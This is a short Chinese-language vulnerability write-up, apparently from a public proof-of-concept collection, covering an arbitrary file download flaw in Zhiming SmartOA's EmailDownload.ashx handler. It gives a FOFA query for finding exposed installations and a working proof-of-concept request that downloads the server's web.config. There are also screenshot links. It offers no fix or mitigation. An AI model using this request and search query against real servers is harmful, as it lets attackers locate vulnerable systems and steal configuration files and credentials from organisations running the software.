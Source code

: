 # 智明 SmartOA EmailDownload.ashx 任意文件下载漏洞

## 漏洞描述

智明 SmartOA EmailDownload.ashx文件存在任意文件下载漏洞，通过漏洞可下载服务器上的敏感文件，查看敏感信息

## 漏洞影响

```
智明 SmartOA
```

## FOFA

```
app="智明协同-SmartOA"
```

## 漏洞复现

登录页面

![image-20220520133519986](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201335202.png)

验证POC

```
/file/EmailDownload.ashx?url=~/web.config&name=web.config
```

![image-20220520133538762](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205201335862.png)